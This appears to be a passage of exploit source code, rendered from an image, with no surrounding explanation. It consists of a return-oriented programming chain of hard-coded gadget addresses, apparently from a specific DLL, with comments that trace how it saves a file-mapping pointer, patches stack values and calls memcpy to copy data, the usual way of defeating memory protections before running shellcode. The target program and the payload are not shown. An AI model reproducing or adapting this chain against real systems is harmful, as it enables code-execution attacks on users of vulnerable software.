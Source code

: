 ```asm
0x00010000,   # dwNumberOfBytesToMap

0x4a8063a5,   # pop ecx / ret
0x4a8a0004,   # becomes ecx - writable pointer

0x4a802196,   # mov [ecx],eax / ret - save map base addr

0x4a8063a5,   # pop ecx / ret
0x4a801064,   # becomes ecx - ptr to ret

0x4a842db2,   # xchg eax,edi / ret

0x4a802ab1,   # pop ebx / ret
0x00000030,   # becomes ebx - offset to modify

0x4a80a8a6,   # execute fun block

0x4a801f90,   # pop eax / ret
0x4a8a0004,   # becomes eax - saved file mapping ptr

0x4a80a7d8,   # mov eax,[eax] / ret - load saved mapping ptr

0x4a8063a5,   # pop ecx / ret
0x4a801064,   # becomes ecx - ptr to ret

0x4a842db2,   # xchg eax,edi / ret

0x4a802ab1,   # pop ebx / ret
0x00000020,   # becomes ebx - offset to modify

0x4a80a8a6,   # execute fun block

0x4a8063a5,   # pop ecx / ret
0x4a801064,   # becomes ecx - ptr to ret

0x4a80aedc,   # lea edx,[esp+0xc] / push edx / push eax / push [esp+0xc] / push [0x4a8a093c] / call ecx / add esp, 0x10 / ret

0x4a801f90,   # pop eax / ret
0x00000034,   # becomes eax

0x4a80d585,   # add eax,edx / ret

0x4a8063a5,   # pop ecx / ret
0x4a801064,   # becomes ecx - ptr to ret

0x4a842db2,   # xchg eax,edi / ret

0x4a802ab1,   # pop ebx / ret
0x0000000a,   # becomes ebx - offset to modify

0x4a80a8a6,   # execute fun block

0x4a801f90,   # pop eax / ret
0x4a849170,   # becomes eax (import for memcpy)

# -- call memcpy
0x4a80b692,   # jmp [eax]

0xffffffff,   # this stuff gets overwritten by the block at 0x4a80aedc, becomes ret from memcpy
0xffffffff,   # becomes first arg to memcpy (dst)
0xffffffff,   # becomes second arg to memcpy (src)
0x00001000,   # becomes third arg to memcpy (length)
```